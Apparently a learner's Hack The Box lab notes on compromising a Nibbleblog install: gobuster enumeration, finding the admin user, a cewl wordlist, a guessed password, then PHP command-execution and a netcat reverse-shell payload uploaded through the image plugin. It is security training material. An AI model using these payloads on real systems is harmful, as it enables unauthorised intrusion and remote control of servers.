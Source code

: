 10.129.15.8
FallenOverlord@htb[/htb]$ gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

exposed dir
```bash
┌─[us-academy-2]─[10.10.14.36]─[htb-ac-1136328@htb-eqighy8yx8]─[~]
└──╼ [★]$ gobuster dir -u http://10.129.15.8/nibbleblog --wordlist /usr/share/dirb/wordlists/common.txt

/.htpasswd            (Status: 403) [Size: 306]
/.hta                 (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.129.15.8/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                          
/content              (Status: 301) [Size: 323] [--> http://10.129.15.8/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                            
/languages            (Status: 301) [Size: 325] [--> http://10.129.15.8/nibbleblog/languages/]
```

user name
```bash
<users>
<user username="admin">
</user>
<blacklist type="string" ip="10.10.10.1">
<date type="integer">1512964659</date>
<fail_count type="integer">1</fail_count>
</blacklist>
<blacklist type="string" ip="10.10.14.36">
<date type="integer">1715425421</date>
<fail_count type="integer">1</fail_count>
</blacklist>
</users>
```

generate custom wordlist  
prepare for hashcat
```bash
cewl http://10.129.15.8/nibbleblog.com -m 5 -w nibbleblog.txt
```

password: nibbles

#### Initial Foothold

logged in adin pothal -> RCE -> reverse shell  
test payload  
<?php system('id'); ?>  

testing: activating php script  
curl http://10.129.226.202/nibbleblog/content/private/plugins/my_image/image.php

bash RS payload  
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 9443 >/tmp/f"); ?>  
